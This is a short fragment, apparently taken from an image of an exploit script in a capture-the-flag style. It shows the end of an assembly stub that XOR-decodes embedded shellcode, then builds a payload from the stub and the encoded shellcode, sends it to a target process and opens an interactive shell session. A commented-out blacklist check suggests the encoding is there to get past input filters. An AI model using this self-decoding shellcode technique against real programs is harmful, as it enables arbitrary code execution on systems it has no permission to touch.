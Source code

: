 ```python
    pop rsi
    add rsi, 0x14
    mov rcx, 24
decrypt:
    xor byte ptr [rsi], 0xac
    inc rsi
    loop decrypt
''')

info(f"{len(shellcode_stub)=}")
info(f"{len(shellcode)=}")
payload = shellcode_stub + xored_shellcode

# print_blacklisted(payload, blacklist)

io = start()

io.sendline(payload)

io.interactive()
```
